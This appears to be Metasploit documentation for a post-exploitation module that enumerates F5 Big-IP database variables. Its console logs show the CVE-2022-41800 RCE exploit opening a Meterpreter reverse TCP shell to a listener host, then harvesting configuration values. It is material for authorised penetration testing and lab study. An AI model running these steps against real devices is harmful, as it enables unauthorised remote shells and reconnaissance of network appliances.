 ## Vulnerable Application

The application is F5 Big-IP, and I don't think the versions matters but I
tested on version 17.0.0.1. It can be downloaded as a VMWare image for free
(you have to create an account) from https://downloads.f5.com. You can register
for a free 30-day trial if you like, but it's not required to test this.

Boot the VM and set an admin password by logging in with the default credentials
(admin / admin). You'll need that password.

## Verification Steps

1. Install the application
2. Start `msfconsole`
3. Do: Get any session somehow (`exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800` works well on 17.0.0.1 and earlier, or just use `msfvenom`)
4. Do: `use post/linux/gather/f5_enum_db_variables`
5. Do `set SESSION <sessionid>`
6. Do: `run`
7. You should get the info

## Options

n/a

## Scenarios

### F5 Big-IP 17.0.0.1 with a root session

First, get a non-root session however you can. I used the rpmspec vuln:

```
msf6 > use exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set HttpPassword mybigtestpassword
HttpPassword => iagotestbigip
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set RHOST 10.0.0.162
RHOST => 10.0.0.162
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set LHOST 10.0.0.179
LHOST => 10.0.0.179
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Sending stage (40168 bytes) to 10.0.0.162
[+] Deleted /var/config/rest/node/tmp/708677fa-5b30-43e6-9ce3-d84046e9f6e9.spec
[+] Deleted /var/config/rest/node/tmp/RPMS/noarch/yE15kZeAwp-1.6.1-7.4.4.noarch.rpm
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.162:36124) at 2022-11-14 16:12:04 -0800

meterpreter > bg
```

Then just use the module, set the SESSION, and run it:

```
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > use post/linux/gather/f5_enum_db_variables                                       
msf6 post(linux/gather/f5_enum_db_variables) > set VERBOSE true                                                                                    
VERBOSE => true                                       
msf6 post(linux/gather/f5_enum_db_variables) > set SESSION 1                                                                                       
SESSION => 1                                       
msf6 post(linux/gather/f5_enum_db_variables) > run
                                                                         
[*] Fetching db variables (this takes a bit)...
[+] cluster.mgmtipaddr => ::                   
[+] clustered.environment => false              
[+] configsync.localconfigtime => 1668534439
[+] dhclient.mgmt => enable                         
[+] dns.domainname => ad.example.org        
[+] dns.nameservers => 10.0.0.1
[+] asm.risk_engine.salt.restart => 0
[+] failover.usetty01 => disable
[+] gtm.coredump => enable
[+] antifraud.encryptionfieldprefix => __
[+] license.maxcores => 2
[+] license.operational => true
[...]
```
